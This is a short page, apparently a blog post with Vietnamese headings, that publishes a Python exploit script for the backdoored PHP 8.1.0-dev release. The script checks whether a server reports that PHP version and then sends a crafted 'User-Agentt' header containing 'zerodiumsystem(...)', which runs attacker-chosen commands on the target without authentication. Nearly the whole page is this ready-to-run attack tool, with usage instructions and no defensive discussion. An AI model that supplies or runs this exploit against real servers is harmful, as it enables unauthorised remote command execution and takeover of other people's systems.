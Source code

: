 ```yaml
---
title: PHP 8.1.0-dev Backdoor Remote Command Injection Exploit 
date: 25/5/2021
layout: single

--- 
```


##  PHP 8.1.0-dev (backdoor) | Chèn lệnh từ xa (Chưa được xác thực)
##  Tác giả khai thác: Richard Jones
[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)




## Mã Kiểm Tra 


```python
#Usage: python3 php_8.1.0-dev.py -u http://10.10.10.242/ -c ls
 
#!/usr/bin/env python3
import requests
import argparse
 
from requests.models import parse_header_links 
 
s = requests.Session()
 
def checkTarget(args):
    r = s.get(args.url)    
    for h in r.headers.items():
        if "PHP/8.1.0-dev" in h[1]:
            return True
    return False
 
 
def execCmd(args):
    r = s.get(args.url, headers={"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"})
    res = r.text.split("<!DOCTYPE html>")[0]
    if not res:
        print("[-] No Results")
    else:
        print("[+] Results:")
    print(res.strip())
 
 
def main():
 
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", help="Target URL (Eg: http://10.10.10.10/)", required=True)
    parser.add_argument("-c", "--cmd", help="Command to execute (Eg: ls,id,whoami)", default="id")
    args = parser.parse_args()
 
    if checkTarget(args):
        execCmd(args)
    else:
        print("[!] Not Vulnerable or url error")
        exit(0)
     
if __name__ == "__main__":
    main()
```



